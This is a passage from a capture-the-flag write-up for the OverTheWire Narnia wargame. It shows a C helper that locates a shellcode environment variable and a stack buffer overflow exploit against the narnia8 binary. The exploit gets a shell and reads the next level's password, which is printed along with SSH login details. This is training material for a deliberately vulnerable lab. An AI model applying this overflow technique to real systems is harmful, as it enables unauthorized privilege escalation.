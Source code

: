 Awesome, now we need to do the same outside GDB. First, let's find the **SHELLCODE** environment variable with the following code :

```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char* argv[])
{
  printf("%s is at %p\n", argv[1], getenv(argv[1]));
}
```

You can, compile it in **/tmp/** :

```bash
narnia8@narnia:/narnia$ cd /tmp
narnia8@narnia:/tmp$ gcc -m32 find_addr.c -o find_addr
narnia8@narnia:/tmp$ ./find_addr SHELLCODE
SHELLCODE is at 0xffffdea1
```

Then, we need to find the pointer of our payload :

```bash
narnia8@narnia:/narnia$ ./narnia8  $(python -c 'print 20 * "A"')  | xxd
00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000010: 4141 4141 6ad8 ffff 98d6 ffff a784 0408  AAAAj...........
00000020: 6ad8 ffff 0a                             j....
narnia8@narnia:/narnia$ python -c 'print "{:8x}".format(0xffffd86a-12)'
ffffd85e
./narnia8 $(python -c 'print 20 * "A" + "\x5e\xd8\xff\xff" + "AAAA" + "\xa1\xde\xff\xff"')
AAAAAAAAAAAAAAAAAAAA^���AAAA����^���
$ whoami
narnia9
$ cat /etc/narnia_pass/narnia9
eiL5fealae
```

Finally ! This one was kind of hard. It took me a while to figure it out :)

## Narnia 09 Solution

**SSH :** *ssh narnia9@narnia.labs.overthewire.org -p 2226*<br/>
**Pass :** *eiL5fealae*

Nothing to do here, we are done !